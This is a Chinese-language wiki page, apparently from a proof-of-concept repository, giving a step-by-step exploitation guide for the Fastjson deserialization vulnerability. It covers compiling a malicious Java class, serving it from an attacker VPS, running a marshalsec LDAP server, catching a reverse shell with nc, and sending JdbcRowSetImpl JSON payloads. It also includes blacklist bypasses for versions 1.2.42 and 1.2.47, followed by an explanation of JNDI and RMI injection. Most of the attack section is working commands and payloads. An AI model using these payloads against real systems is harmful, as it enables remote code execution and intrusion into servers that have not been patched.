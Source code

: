 # FastJson反序列化漏洞利用

## 利用条件：

- Fastjson < 1.2.25
- 基于ldap的利用方式，适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。
- 基于rmi的利用方式，适用jdk版本：JDK 6u132，JDK 7u131，JDK 8u121之前。
- （实战首选ldap，支持的jdk版本较多）
- 1.2.24< Fastjson <1.2.48 版本后增加了反序列化白名单，可以利用特殊构造的json字符串绕过白名单检测
- < 1.2.47基于黑名单绕过，autoTypeSupport属性为true才能使用，在1.2.25版本之后autoTypeSupport默认为false

## 利用方法：

### 步骤一：测试是否可能存在fastjson反序列化漏洞

使用json格式参数的POST请求，查看请求是否报错和返回结果。

### 步骤二：准备要执行的 Java 恶意代码

修改恶意类代码 [JNDIObject.java](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/file/JNDIObject.java) 并编译生成恶意类 JNDIObject.class

```bash
javac JNDIObject.java
```
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/image/javaCode.jpg)
> ⚠️port为nc监听端口

### 步骤三：搭建http服务传输恶意文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）
```bash
# 使用 python 快速开启 http server
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
并将生成的 `JNDIObject.class` 文件拷贝到 该服务的根目录。

### 步骤四：架设恶意类的 ldap 服务

下载 [marshalsec](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/file/marshalsec-0.0.3-SNAPSHOT-all.jar) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

> ⚠️恶意类的ldap服务监听端口和poc中访问的接口一致

### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

### 步骤六：修改请求包数据，发送poc

```bash
{
	"b":{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://your-vps-ip:1389/JNDIObject",
		"autoCommit":true
	}
}
```
> ⚠️poc中访问的接口和恶意类的ldap服务监听端口一致

### 1.2.42版本绕过
fastjson在1.2.42版本新增了校验机制。如果输入类名的开头和结尾是L和;就将头尾去掉再进行黑名单校验。绕过方法：在类名外部嵌套两层L和;。
原类名：```com.sun.rowset.JdbcRowSetImpl```

绕过：```LLcom.sun.rowset.JdbcRowSetImpl;;```

EXP：

```bash
{           
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://ip:1389/JNDIObject",
	"autoCommit":true
}
```
> autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

### 1.2.47版本绕过
在1.2.47版本及以下的情况下，loadClass中默认cache为true，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.jdbcRowSetlmpl这个类，即可绕过黑名单

```bash
{
	"a": { 
		"@type":"java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": { 
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://ip:1389/JNDIObject",
		"autoCommit":true
	}
}
```

## 漏洞原理：

1. 首先开启HTTP服务器，并将我们的恶意类放在目录下
2. 开启恶意RMI服务器
3. 攻击者控制url参数为上一步开启的恶意RMI服务器地址
4. 恶意RMI服务器返回ReferenceWrapper类
5. 目标（JNDI_Client）在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类），在实例化时触发静态代码片段中的恶意代码

## 漏洞分析：
### JNDI
JNDI是 Java 命名与目录接口（Java Naming and Directory Interface），在J2EE规范中是重要的规范之一。JNDI提供统一的客户端API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI再局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。

JNDi是应用程序设计的Api，JNDI可以根据名字动态加载数据，支持的服务主要有以下几种：
```bash
DNS、LDAP、CORBA对象服务、RMI
```
### 利用JNDI References进行注入
对于这个知识点，我们需要先了解RMI的作用。

首先RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。RMI服务端可以直接绑定远程调用的对象以外，还可通过References类来绑定一个外部的远程对象，当RMI绑定了References之后，首先会利用Referenceable.getReference()获取绑定对象的引用，并在目录中保存，当客户端使用lookup获取对应名字时，会返回ReferenceWrapper类的代理文件，然后会调用getReference()获取Reference类，最终通过factory类将Reference转换为具体的对象实例。

服务端
```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
	public static void main(String args[]) throws Exception {
		Registry registry = LocateRegistry.createRegistry(1099);
		// Reference需要传入三个参数(className,factory,factoryLocation)
		// 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
		Reference refObj = new Reference("Evil", "EvilObject", "http://127.0.0.1:8000/");
		// ReferenceWrapper包裹Reference类，使其能够通过RMI进行远程访问
		ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
		registry.bind("refObj", refObjWrapper);
	}
}
```

客户端
```bash
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDIClient {
	public static void main(String[] args) throws Exception{
		try {
			Context ctx = new InitialContext();
			ctx.lookup("rmi://localhost:8000/refObj");
		}catch (NamingException e) {
			e.printStackTrace();
		}
	}
}
```
如果我们可以控制JNDI客户端中传入的url，就可以起一个恶意的RMI，让JNDI来加载我们的恶意类从而进行命令执行。

我们来看一下References，References类有两个属性，className和codebase url，className就是远程引用的类名，codebase决定了我们远程类的位置，当本地classpath中没有找到对应的类的时候，就会去请求codebase地址下的类（codebase支持http协议），此时如果我们将codebase地址下的类换成我们的恶意类，就能让客户端执行。

ps：在java版本大于1.8u191之后版本存在trustCodebaseURL的限制，只能信任已有的codebase地址，不再能够从指定codebase中下载字节码。


## 漏洞总结：

1. 反序列化常用的两种利用方式，一种是基于rmi，一种是基于ldap。
2. RMI是一种行为，指的是Java远程方法调用。
3. JNDI是一个接口，在这个接口下会有多种目录系统服务的实现，通过名称等去找到相关的对象，并把它下载到客户端中来。
4. ldap指轻量级目录服务协议。
